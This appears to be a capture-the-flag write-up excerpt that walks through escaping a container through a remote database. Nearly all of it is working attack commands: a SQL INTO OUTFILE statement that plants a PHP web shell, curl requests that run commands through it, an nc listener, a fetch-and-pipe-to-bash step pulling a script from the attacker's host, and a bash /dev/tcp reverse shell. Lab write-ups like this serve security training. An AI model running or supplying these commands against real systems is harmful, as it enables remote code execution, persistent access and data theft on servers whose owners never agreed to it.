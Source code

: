 ```shell
#we have access to remote database
#we can exploit it by injection

#injects PHP code into table
#and saves table to file on remote system
select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell-sv.php';
```

```shell
#now we can use curl
#to get RCE

#exit mysql

curl 192.168.100.1:8080/shell-sv.php?cmd=id
#www-data

#on attacker machine
#create shellscript for reverse shell
vim shellscript.sh

python3 -m http.server 80

#setup listener
nc -nvlp 53

#in victim machine rce
#execute url-encoded command
curl 'http://192.168.100.1:8080/shell-sv.php?cmd=curl%20http%3A%2F%2F10.50.109.20%3A80%2Fshellscript.sh%7Cbash%20%26'
#this gives us reverse shell on listener

cat /var/www/user.txt
#get flag
```

```shell
#!/bin/bash
bash -i >& /dev/tcp/10.50.109.20/53 0>&1
```

* According to given info, we can attempt to escape the container by exploiting the remote database.

* The methodology to be followed is:

  * Access remote database using admin creds
  
  * Create new table in main database

  * Inject PHP code to gain command execution

  * Drop table contents onto a file the user can access

  * Execute and obtain RCE on host
